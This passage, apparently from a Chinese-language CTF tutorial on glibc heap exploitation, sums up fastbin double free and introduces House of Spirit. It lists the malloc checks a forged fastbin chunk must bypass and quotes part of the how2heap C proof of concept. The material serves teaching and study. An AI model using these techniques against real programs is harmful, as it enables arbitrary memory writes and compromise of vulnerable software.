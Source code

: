 ```
	  return NULL;
}
```

### 小总结
通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。
如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果( 首先要通过验证 )，这就相当于任意地址写任意值的效果。

## House Of Spirit

### 介绍

House of Spirit 是 `the Malloc Maleficarum` 中的一种技术。

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配**指定地址**的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

- fake chunk 的 ISMMAP 位不能为1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

至于为什么要绕过这些检测，可以参考 free 部分的源码。

### 演示

这里就直接以 how2heap 上的例子进行说明，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

```